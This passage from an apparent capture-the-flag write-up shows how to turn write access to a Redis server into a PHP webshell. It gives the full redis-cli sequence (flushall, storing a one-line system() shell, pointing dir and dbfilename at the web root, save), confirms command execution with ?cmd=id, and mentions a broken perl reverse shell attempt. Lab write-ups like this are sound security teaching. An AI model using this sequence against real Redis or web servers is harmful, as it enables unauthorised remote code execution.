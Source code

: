 #### Exploit Limitations

This isn’t by any means perfect. For example, the database will compress
repeated text patterns, so could I lose some of the text I want to write. So
for example, when I tried to write `<br/>` into multiple places in a php file,
only the first actually made it through as desired. Even if I tried using
`<br/>` and `<br />`, the second `<br` was replaced with binary data.
Similarly, when I wrote a command to get a `perl` reverse shell, the pattern
`,">&S");` was replaced and thus broke the script.

#### Exploit to WebShell

Luckily for me, I can write a simple php webshell, and there’s no repeats, and
php doesn’t care about garbage before or after the shell.

Steps (all in `redis-cli`):

  1. flush the database
  2. write shell to database
  3. set directory
  4. set filename
  5. save

    
    
    root@kali# cat redis.txt  # show the shell file
    
    
    
    <?php system($_REQUEST['cmd']); ?>
    
    
    root@kali# redis-cli -h 127.0.0.1  flushall  # step 1
    OK
    root@kali# cat redis.txt | redis-cli -x set crackit  # step 2
    OK
    root@kali# redis-cli 
    127.0.0.1:6379> config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/  # step 3
    HISTORY: /root/.rediscli_history
    OK
    127.0.0.1:6379> config set dbfilename "df.php"       # step 4
    HISTORY: /root/.rediscli_history
    OK
    127.0.0.1:6379> save                                 # step 5
    HISTORY: /root/.rediscli_history
    OK
    

Now check out
`http://127.0.0.1/8924d0549008565c554f8128cd11fda4/df.php?cmd=id`:

![1532623689773](https://0xdfimages.gitlab.io/img/1532623689773.png)

There’s other mess there, but the `id` command ran and returned results, which
I marked in red.

`hostname` shows the host is named www:
